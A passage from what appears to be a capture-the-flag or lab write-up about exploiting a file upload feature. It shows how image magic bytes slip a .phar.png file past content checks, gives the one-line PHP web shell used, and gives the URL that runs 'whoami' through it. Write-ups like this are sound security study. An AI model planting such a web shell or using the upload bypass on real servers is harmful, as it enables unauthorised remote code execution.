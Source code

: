 When accessing the uploaded file, the browser displayed the raw bytes of the image instead of rendering it as a normal image. This confirms that the server executed the PHP payload, returning output instead of serving the file as an image, confirming that RCE was achievable.

I could now safely remove image content except for the initial bytes (magic bytes) required to bypass content checks and inject the PHP web shell code.


### Achieving RCE

#### Web Shell Upload

I created a `.phar.png` file with the following payload:

```php
<?php system($_GET['cmd']); ?>
```

![](screenshots/12.png)

Execution of a simple command confirmed successful RCE:

```
http://<target_ip>:<target_port>/contact/user_feedback_submissions/<YYMMDD>_<filename>?cmd=whoami
```

![](screenshots/13.png)
